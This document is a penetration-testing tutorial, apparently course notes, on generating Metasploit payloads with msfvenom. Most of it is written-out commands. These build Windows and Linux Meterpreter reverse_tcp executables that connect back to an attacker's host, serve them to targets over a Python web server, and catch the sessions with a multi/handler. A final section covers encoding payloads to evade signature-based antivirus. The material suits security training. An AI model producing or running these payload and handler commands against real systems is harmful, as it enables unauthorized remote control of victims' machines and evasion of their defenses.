 # Payloads

## Generating Payloads with Msfvenom

### Client-Side Attacks

- **Definition**: A client-side attack is an attack vector that involves coercing a client to execute a malicious payload on their system, which then connects back to the attacker when executed.
- **Techniques**: These attacks typically utilize social engineering techniques to generate malicious documents or portable executables (PEs).
- **Vulnerability**: Client-side attacks exploit human vulnerabilities as opposed to vulnerabilities in services or software running on the target system.
- **Antivirus Considerations**: Since this attack vector involves the transfer and storage of a malicious payload on the client’s system (disk), attackers need to be mindful of AV detection.

### Msfvenom

- **What is Msfvenom?**: Msfvenom is a command-line utility used to generate and encode Metasploit Framework (MSF) payloads for various operating systems and web servers.
- **Origin**: Msfvenom combines the functionalities of two tools: `msfpayload` and `msfencode`.
- **Purpose**: We can use Msfvenom to generate a malicious Meterpreter payload that can be transferred to a target system. Once executed, it will connect back to our payload handler and provide us with remote access to the target system.

### Demo: Generating Payloads with Msfvenom

1. **List available payloads:**

    ```bash
    msfvenom --list payloads
    ```

2. **Types of Payloads:**
   - **Staged Payload**: Delivered in two parts: an initial loader that connects back to the attacker and downloads the main payload, allowing for smaller payloads and flexibility.
   - **Non-staged Payload**: Delivers the entire payload at once, making it simpler and faster but potentially larger in size.

#### Generating Windows Payloads

- **Generate x86 Payload:**

    ```bash
    msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=[yourIP] LPORT=[port] -f exe > /home/kali/Desktop/Windows_Payloads/payloadx86.exe
    ```

    Check if the payload was generated successfully:

    ```bash
    cd Desktop/Windows_Payloads/
    ls
    ```

- **Generate x64 Payload:**

    ```bash
    msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=[yourIP] LPORT=[port] -f exe > /home/kali/Desktop/Windows_Payloads/payloadx64.exe
    ```

    Verify:

    ```bash
    cd Desktop/Windows_Payloads/
    ls
    ```

- **Set up a Handler:**
    - A handler is needed to listen for and manage incoming connections from the payload on the target machine, enabling control over the compromised system:

    ```bash
    use exploit/multi/handler
    ```

- **List available output formats:**

    ```bash
    msfvenom -list formats
    ```

    - **Framework Executable Formats**: aspx, dll, elf, exe, jar, etc.
    - **Framework Transform Formats**: Allows us to output the payloads into a Python, Ruby file, etc.

#### Generating Linux Payloads

- **Navigate to the directory for Linux payloads:**

    ```bash
    cd ..
    ls
    ```

    The payloads will be stored in `/home/kali/Desktop/`.

- **Generate Payload:**

    ```bash
    msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[yourIP] LPORT=[port] -f elf > /Desktop/Linux_Payloads/payloadx86
    ```

    Navigate to the target directory and make the payload executable:

    ```bash
    cd Linux_Payloads/
    chmod +x payloadx86
    ./payloadx86
    ```

### Transfer Windows Payload onto Target System

- **Navigate to the Windows payloads directory:**

    ```bash
    cd Windows_Payloads/
    ```

- **Set up a simple web server to host the payload files:**

    ```bash
    sudo python -m SimpleHTTPServer 80
    ```

- **Open a new tab and launch msfconsole:**

    ```bash
    msfconsole
    ```

    - **Set up and run the handler:**

        ```bash
        use multi/handler
        set payload windows/meterpreter/reverse_tcp
        set lhost [yourIP]
        set lport [port]
        run
        ```

    - **Result**: We obtained a Meterpreter session.
 
## Encoding Payloads with Msfvenom

- Given that this attack vector involves the transfer and storage of a malicious payload on the client's system (disk), attackers need to be cognisant of AV detection.
- Most end user AV solutions utilize signature based detection in order to identify malicious files or executables.
- We can evade older signature based AV soulutions by encoding our payloads.
- Encoding is the process of modifying the payload shellcode with the objective of medifying the payload signature.

